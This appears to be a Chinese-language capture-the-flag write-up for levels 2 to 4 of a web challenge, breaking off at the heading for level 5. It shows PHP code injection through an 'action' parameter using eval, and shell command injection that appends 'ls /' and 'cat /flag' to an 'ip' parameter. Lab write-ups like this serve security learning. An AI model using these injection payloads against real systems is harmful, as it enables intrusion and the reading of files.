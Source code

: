     
    
### LEVEL 2  
    
![day1b3.png](https://s2.loli.net/2025/01/17/6Di5kfWQz1vUJPO.png)
检查URL中是否有一个名为action的参数。如果有，就使用该参数的值作为
start()函数的参数来执行相应的逻辑。如果没有，就执行一个空字符串并
没有实际的效果，只是意味着不做任何事情。需要进行传参  
  
>?action=submit  
    
      
>/?action=eval('echo $flag;');  
  

![day1b4.png](https://s2.loli.net/2025/01/17/KEfd8AGkW49z5mL.png)  
  
![day1b4.5.png](https://s2.loli.net/2025/01/17/4lUTSsk5Z9vrDPe.png)  
  
这样就能拿到flag辣。  
  
  
  
### LEVEL 3  
  
  
  没什么好说的，干就完了。
![day1b5.png](https://s2.loli.net/2025/01/17/14o28JQSxDfIcwZ.png)  
  
      
以a变量做回参，直接POST传参
![day1b6.png](https://s2.loli.net/2025/01/17/xBelNUzViWsJ2Tn.png)
  
![day1b7.png](https://s2.loli.net/2025/01/17/Ua3fsolrPMCjhqv.png)  
  
    
拿到flag。  
  
  
  
### LEVEL 4    
  
    
一切又回到了CTFHUB的那个夏天🤗GET传参和熟悉的127.  
  
    
>/?ip=127.0.0.1;ls /   //打开根目录  

![day1b8.png](https://s2.loli.net/2025/01/17/B39b481hOT2XSJv.png)  
  发现根目录下的flag文件，直接cat  
    
>/?ip=127.0.0.1;cat /flag  
  
  直接拿到flag。 


### LEVEL 5  
  
    